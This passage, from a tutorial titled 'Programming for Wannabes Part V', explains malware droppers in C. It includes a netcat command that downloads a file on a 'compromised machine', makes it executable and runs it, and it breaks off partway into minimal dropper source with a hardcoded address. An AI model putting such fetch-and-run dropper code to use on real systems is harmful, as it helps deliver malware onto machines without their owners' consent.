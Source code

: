 # Programming for Wannabes. Part V. A Dropper

So far we have been much focused on reverse engineering, but everybody knows that in order to become a hacker you have to master much more than that. So in this installment we will be moving forward and making use of all the stuff we had learned till now in order to get started with network programming.

We will start with something very simple but that will allow us to use everything we had already learnt at the same time that we dive into networking. For this purpose we will be writing a dropper.

A dropper is a program, usually very small, so it gets more chances to get transferred to a remote machine and whose goal is to download other files, usually bigger parts of some malware too big to fit as part of an exploit.

This may sound cool to some of you, but we are basically going to write a program to transfer files between two machines. And we will try to make this program very, very small. Hopefully this will throw some light about that question on which language you should use to write malware...

# A simple dropper

Let's start writing our dropper in C. The program is going to be very simple. We will create a TCP connection to some fixed machine and write to `stdout` anything received from that connection.

In order to test the dropper in your machine, you will need two terminals. One will be play the role of the malware server, i.e. the machine containing a full-fledge malware we want to transfer to the compromised machine. For our purpose this will just be:

```bash
malware_server $ cat /usr/bin/xeyes | nc -l -p $((1111))
```

This line simulates a TCP server listening on port `0x1111` that will send the program `xeyes` to any one connecting to it. To test this, open another terminal and run the following command:

```bash
compromised_machine $ rm k; nc localhost $((1111)) > k; chmod +x k; ./k
```

You can try this line and get those fancy eyes up following your mouse on the screen.

So, what we are going to write is a program to do what `nc` does in the example above. Yes, you can use `nc` or similar tools whenever possible, but we are here trying to be wannabees... and for that we need to be able to build any single tool we will every use... that's the difference between script kids and hackers... I think :)

# Minimal C Dropper

So let's take a look to a minimal dropper, and let's use that code to introduce new C language concepts and start our journey. The code is this:

```C
#include <stdio.h>
#include <unistd.h>

#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>

#define BUF_SIZE 1024

int main (void) {
  int                s, l;
  unsigned long      addr =  0x0100007f11110002; // Define IP the hacker way :)
  unsigned char      buf[BUF_SIZE];

  
```